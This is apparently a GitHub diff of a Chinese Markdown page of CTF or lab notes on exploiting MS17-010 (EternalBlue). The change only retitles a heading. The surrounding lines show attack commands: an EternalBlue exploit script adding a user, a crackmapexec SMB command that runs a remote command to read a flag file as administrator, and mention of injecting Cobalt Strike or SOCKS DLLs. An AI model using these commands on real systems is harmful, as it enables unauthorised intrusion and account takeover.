

Before and after one commit to jindaxia/militarization, a Markdown page: ms17-010/MS17-010.md, the part around the change. GitHub-like rendering.

Commit message:
更新 readme

````diff
--- a/ms17-010/MS17-010.md
+++ b/ms17-010/MS17-010.md
@@ -40,7 +40,7 @@ python3 eternalblue_exploit7.py adduser.bin x.x.x.x
 使用NSA工具 注入CS的dll，或者开socks代理的dll
 ```
 
-### 使用smb直接读flag文件 不讲武德
+### 创建账号之后使用smb直接读flag文件 不讲武德
 
 ```
 crackmapexec smb $ip -u administrator -p 112344 -x 'type C:\Users\Administrator\Desktop\flag.txt'
````
